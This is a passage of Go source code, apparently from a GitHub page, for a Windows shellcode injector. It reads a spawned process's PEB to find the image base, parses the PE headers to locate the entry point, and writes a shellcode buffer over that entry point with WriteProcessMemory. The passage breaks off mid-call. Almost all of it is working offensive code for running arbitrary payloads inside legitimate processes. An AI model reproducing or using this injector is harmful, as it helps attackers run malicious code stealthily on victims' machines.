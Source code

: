 ```go
    uintptr(unsafe.Sizeof(windows.PROCESS_BASIC_INFORMATION{})),
    uintptr(unsafe.Pointer(&returnLength)),
  )

  pebOffset:= uintptr(unsafe.Pointer(pbi.PebBaseAddress))+0x10
  var imageBase uintptr = 0

/*
BOOL ReadProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPCVOID lpBaseAddress,
  [out] LPVOID  lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesRead
);
*/

  fmt.Println("[*] Calling ReadProcessMemory...")
  ReadProcessMemory.Call(
    uintptr(pi.Process),
    pebOffset,
    uintptr(unsafe.Pointer(&imageBase)),
    8,
    0,
  )

  headersBuffer := make([]byte,4096)

  fmt.Println("[*] Calling ReadProcessMemory...")
  ReadProcessMemory.Call(
    uintptr(pi.Process),
    uintptr(imageBase),
    uintptr(unsafe.Pointer(&headersBuffer[0])),
    4096,
    0,
  )

  fmt.Printf("\n[*] Image Base: 0x%x\n", imageBase)
  fmt.Printf("[*] PEB Offset: 0x%x\n", pebOffset)

  // Parse DOS header e_lfanew entry to calculate entry point address
  var dosHeader IMAGE_DOS_HEADER
  dosHeader.E_lfanew = binary.LittleEndian.Uint32(headersBuffer[60:64])
  ntHeader := (*IMAGE_NT_HEADER)(unsafe.Pointer(uintptr(unsafe.Pointer(&headersBuffer[0])) + uintptr(dosHeader.E_lfanew)))
  codeEntry := uintptr(ntHeader.OptionalHeader.AddressOfEntryPoint) + imageBase

/*
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
*/

  fmt.Println("\n[*] Calling WriteProcessMemory...")
  WriteProcessMemory.Call(
    uintptr(pi.Process),
    codeEntry, // write shellcode to entry point
    uintptr(unsafe.Pointer(&shellcode[0])),
    uintptr(len(shellcode)),
```